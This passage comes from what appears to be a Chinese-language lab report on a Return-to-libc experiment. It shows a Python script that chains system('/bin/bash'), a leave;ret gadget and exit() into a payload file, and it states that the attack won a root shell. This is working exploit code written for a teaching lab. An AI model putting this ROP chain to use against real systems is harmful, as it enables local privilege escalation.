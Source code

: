       # system("/bin/bash")
      ebp_next += 0x20
      content += tobytes(ebp_next)
      content += tobytes(system_addr)
      content += tobytes(leaveret)
      content += tobytes(bash_addr)
      content += b'A' *(0x20 - 4*4)
      
      # exit()
      content += tobytes(0xFFFFFFFF)
      content += tobytes(exit_addr)  # Return address
      
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```
   
      结果如下，成功获取到root权限下的shell
   
      ![ROP_4_results](/img/posts/2023-11-20-Return_to_Libc实验报告/images/ROP_4_results.png)